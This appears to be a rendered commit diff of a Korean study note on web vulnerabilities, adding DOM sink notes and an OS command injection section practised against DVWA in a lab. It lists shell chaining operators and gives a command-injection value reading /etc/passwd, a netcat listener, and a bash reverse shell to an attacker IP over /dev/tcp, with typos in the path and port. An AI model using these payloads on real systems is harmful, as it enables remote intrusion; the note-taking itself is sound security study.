

Before and after one commit to moonimax/IOT-Security-Dev, a Markdown page: 웹 취약점/XSS.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; pictures changed too: Images/dfadsafasdfasdgah 1.png (added), Images/dfadsafasdfasdgah.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-07-31 14:26:52

````diff
--- a/웹 취약점/XSS.md
+++ b/웹 취약점/XSS.md
@@ -113,3 +113,51 @@ ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
 - `$_GET` 이후 아무런 조치 없이 모든 input 값에 대하여 서버에 검증하는 도구도 없기 때문에 위에 기술된 공격 내용이 모두 적용된다.
 - Medium 방식도 단순하게 `<script> 문자열을 포함`하는 string 값에 대한 처리만 이루어지기 때문에 이외 모든 공격이 가능하다.
 - Impossible 값에도 비슷하게 ` checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );`에 대한 처리가 이루어지지만 사실상 특수문자를 기입하게 되면 그대로 XSS 공격이 가능하기 때문에 좋은 방어책이 아니게 보인다.
+
+
+---
+## Document Object Model
+- innetHTML , document.write()
+- textContent innerText
+>html 코드나 javascript 중 문자열 화면에 출력하는 메서드
+
+
+OS command injection
+사용자 입력값이 어플리케이션의 운영체제 명령어 실행 가능
+
+**리눅스**
+; 앞의 명령어가 끝나면 뒤 명령어가 실행되는 특수문자
+& 앞의 명령어를 백그라운드로 실행하고 바로 뒤의 명령을 실행
+&& 앞 명령어 성공 시 뒤 명령어를 실행
+| 앞 명령어 출력을 뒤 명령어 input 값으로 넘김
+|| 앞 명령어 실패 시 뒤 명령어를 실행
+
+
+**윈도우**
+& 앞 명령어가 끝나면 뒤 명령어를 실행하는 특수 문자
+&& 앞 명령이 성공하면 뒤 명령어 실행
+| 앞 명령어 출력을 뒤 명령어 input 값으로 넘김
+|| 앞 명령어 실패 시 뒤 명령어를 실행
+
+
+공격 실행 1.
+ - (ip ); /cat/etc/passwd
+
+![](../Images/dfadsafasdfasdgah%201.png)
+
+
+공격 실행 2.
+
+kali linux 환경
+```bash
+ip a
+ping 8.8.8.8
+nc -lvnp 4444 //Listening 4444 port open
+
+192.168.63.133(kali linux ip)
+```
+
+DVWA command injection prompt
+```
+127.0.0.1; bash -i >&/dev/tcp/192.168.63.133/444 0 >&1
+```
````
Also changed, not shown: other parts of 웹 취약점/XSS.md (+1 -1 lines), 1 other file.
